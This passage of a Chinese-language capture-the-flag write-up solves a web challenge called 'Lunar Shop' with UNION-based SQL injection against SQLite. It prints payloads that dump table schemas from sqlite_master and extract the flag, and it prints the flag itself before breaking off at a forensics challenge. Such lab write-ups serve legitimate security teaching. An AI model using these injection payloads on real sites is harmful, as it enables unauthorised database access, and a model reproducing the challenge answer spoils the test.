 ### Lunar Shop

題目看起來是一個清單顯示販售物品  
觀察網址可以發現有 `product_id` 的參數  
![alt text](shop_1.png)  

可以戳出 Error
![alt text](shop_2.png)  

然後開始試 UNION base SQL Injection 有 4 個 column  
猜使用的是 SQLite 所以戳 `sqlite_master` 來看有哪些 table 及 schema
```sql
UNION SELECT NULL, name, sql, NULL FROM sqlite_master WHERE type='table'  
```

就可以知道怎麼拿 flag 了

```sql
UNION SELECT NULL, NULL, flag, NULL FROM flag 
```

Flag: `sun{baby_SQL_injection_this_is_known_as_error_based_SQL_injection_8767289082762892}`

---

## Forensics
### Pretty Delicious Food

題目給了一個 [pdf 檔](./prettydeliciouscakes.pdf) 直接先 `strings` 跟 `binwalk`  
